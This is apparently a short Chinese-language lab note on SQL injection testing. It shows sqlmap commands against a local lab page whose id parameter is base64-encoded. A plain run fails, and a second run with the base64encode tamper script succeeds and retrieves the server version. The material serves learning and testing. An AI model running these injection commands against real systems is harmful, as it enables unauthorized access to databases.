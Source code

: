 使用sqlmap尝试跑一下是否有sql注入点

```
python sqlmap.py -u "http://192.168.100.2/sqli2/base64.php?id=MQ==" --batch
```

注入失败，因为base64编码

![image-20240414114205833](../图片/image-20240414114205833.png)



使用tamper的base64encode插件

```
python sqlmap.py -u "http://192.168.100.2/sqli2/base64.php?id=MQ==" tamper=base64encode --batch
```

发现注入，成功查询到服务器版本信息

![image-20240414140330009](../图片/image-20240414140330009.png)

##### 关键词过滤

过滤关键词为空
